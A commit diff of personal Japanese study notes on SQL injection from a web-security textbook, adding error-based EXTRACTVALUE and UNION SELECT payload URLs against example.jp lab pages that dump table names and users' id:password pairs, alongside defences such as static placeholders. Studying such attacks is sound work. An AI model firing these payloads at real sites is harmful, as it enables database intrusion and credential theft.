

Before and after one commit to kokoichi206/til, a Markdown page: security/tokumaru-book/memo.md, the part around the change. Shown at 96% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
sec 4.3 4.4

````diff
--- a/security/tokumaru-book/memo.md
+++ b/security/tokumaru-book/memo.md
@@ -219,6 +219,46 @@ http://example.jp/43/43-001.php?keyword=%3Cscript%3Ealert('alart');%3C/script%3E
 - [教科書に載らない web アプリケーションセキュリティ](https://atmarkit.itmedia.co.jp/fcoding/index/webapp.html)
 
 
+### 4.4 SQL
+
+- 対策
+  - **静的プレースホルダ**を利用して SQL を呼び出す
+
+``` sh
+http://example.jp/44/44-001.php?author=%27+AND+EXTRACTVALUE(0,SELECT%20table_name,%20column_name,%201%20FROM%20information_schema.columns)+--+
+
+
+http://example.jp/44/44-001.php?author=%27+AND+EXTRACTVALUE(0,(SELECT+CONCAT(%27$%27,id,%27:%27,pwd)+FROM+users+LIMIT+0,1))+--+
+
+# MariaDB であることが分かった上で
+
+http://example.jp/44/44-001.php?author=%27+AND+EXTRACTVALUE(0,(SELECT+VERSION()))+--+
+
+http://example.jp/44/44-001.php?author=%27+AND+EXTRACTVALUE(0,(SELECT+GROUP_CONCAT(TABLE_NAME+SEPARATOR+',')+FROM+INFORMATION_SCHEMA.TABLES))+--+
+
+
+http://example.jp/44/44-001.php?author=%27+AND+EXTRACTVALUE(0,(SELECT+CONCAT(%27$%27,GROUP_CONCAT(TABLE_NAME+SEPARATOR+','))+FROM+INFORMATION_SCHEMA.TABLES+WHERE+TABLE_SCHEMA+NOT+IN+('information_schema',+'mysql',+'performance_schema',+'sys')))+--+
+```
+
+db の表名・列名の調べ方
+
+``` sql
+SELECT table_name, column_name, data_type FROM information_schema.columns ORDER BY 1;
+
+
+http://example.jp/44/44-001.php?author=author=%27+UNION+SELECT+table_name, column_name, data_type,table_schema,NULL,NULL,NULL+FROM+information_schema.columns+ORDER+BY+1--+
+
+
+http://example.jp/44/44-001.php?author=author=%27+UNION+SELECT+table_name, column_name, data_type,NULL,NULL,NULL,NULL+FROM+information_schema.columns+WHERE+table_schema+NOT+IN+('information_schema',+'mysql',+'performance_schema',+'sys')+ORDER+BY+1--+
+```
+
+プレースホルダーの利用に加えてやっておいた方がいい対策
+
+- 詳細なエラーメッセージの抑止
+- 入力値の妥当性検討
+- データベースの権限設定
+
+
 ## Links
 
 - [XMLHttpRequest](https://developer.mozilla.org/ja/docs/Web/API/XMLHttpRequest)
````
